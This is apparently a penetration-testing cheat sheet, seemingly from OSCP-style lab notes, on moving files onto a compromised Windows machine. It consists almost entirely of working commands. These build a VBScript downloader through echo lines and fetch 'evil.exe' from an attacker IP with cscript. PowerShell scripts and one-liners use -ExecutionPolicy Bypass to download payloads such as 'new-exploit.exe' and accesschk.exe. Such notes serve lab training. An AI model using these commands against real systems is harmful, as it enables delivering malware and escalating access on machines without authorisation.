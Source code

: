 ```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Run Script

```
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

# Using Power Shell

On Windows
```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Run

```
 powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Powershell one liner

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -Command "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.175/accesschk.exe', 'C:\tmp\accesschk.exe')"


```
